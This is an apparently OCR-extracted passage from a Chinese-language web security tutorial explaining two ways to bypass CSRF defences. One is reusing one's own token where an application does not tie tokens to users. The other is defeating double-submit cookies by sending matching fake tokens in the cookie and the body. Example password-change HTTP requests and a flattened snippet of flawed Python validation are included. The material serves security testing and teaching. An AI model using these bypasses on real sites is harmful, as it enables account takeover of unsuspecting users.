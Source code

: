 你也可以尝试使用另一个会话的 CSRF 令牌提交请求。之所以有效，是因为一些应用程序可能只检查令牌是否有效，而不确认它是否属于当前用户。假设受害者的令牌是`871caef0757a4ac9691aceb9aad8b65b`，而你的令牌是`YOUR_TOKEN`。尽管很难获得受害者的令牌，但你可以轻松获得自己的令牌，所以可以尝试用自己的令牌替换合法的令牌。如果你不想使用自己的令牌，还可以创建另一个测试账户来生成令牌。例如，你的利用代码可能如下所示：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123&csrf_token=`YOUR_TOKEN`
```

错误的应用程序逻辑可能如下所示：

```
def validate_token(): if request.csrf_token:1  if (request.csrf_token in valid_csrf_tokens): pass else: throw_error("CSRF token incorrect. Request rejected.")
[...] def process_state_changing_action(): validate_token()2 execute_action()
```

这段 Python 代码首先验证 CSRF 令牌。如果令牌在当前有效令牌列表中 1，执行将继续，并执行改变状态的操作 2。否则，将产生错误并停止执行。如果是这种情况，你可以将自己的 CSRF 令牌插入到恶意请求中！

### 绕过双重提交 CSRF 令牌

网站通常使用*双重提交 cookie*作为防范 CSRF 的手段。在这种技术中，改变状态的请求包含与 cookie 和请求参数中相同的随机令牌，服务器检查这两个值是否相等。如果值匹配，请求被视为合法请求。否则，应用程序将拒绝该请求。例如，以下请求被认为是有效的，因为用户的 cookie 中的`csrf_token`与 POST 请求参数中的`csrf_token`匹配：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`; csrf_token=871caef0757a4ac9691aceb9aad8b65b
(POST request body)
new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```

以下示例会失败。请注意，用户 cookies 中的 `csrf_token` 与 POST 请求参数中的 `csrf_token` 不同。在双重提交令牌验证系统中，令牌本身是否有效并不重要。服务器只检查 cookies 中的令牌是否与请求参数中的令牌相同：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`; **csrf_token=1aceb9aad8b65b871caef0757a4ac969**
(POST request body)
new_password=abc123&**csrf_token=871caef0757a4ac9691aceb9aad8b65b**
```

如果应用程序使用双重提交 cookie 作为其 CSRF 防御机制，那么它可能没有在服务器端记录有效令牌。如果服务器在服务器端记录了 CSRF 令牌，它就可以在令牌发送过来时进行验证，应用程序就不需要使用双重提交 cookie 了。

服务器无法知道它接收到的任何令牌是否真正合法；它只是检查 cookie 中的令牌和请求体中的令牌是否相同。换句话说，这个请求，假如同时在 cookie 和请求参数中都传入相同的虚假值，也会被认为是合法的：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`; **csrf_token=not_a_real_token**
(POST request body)
new_password=abc123&**csrf_token=not_a_real_token**
```
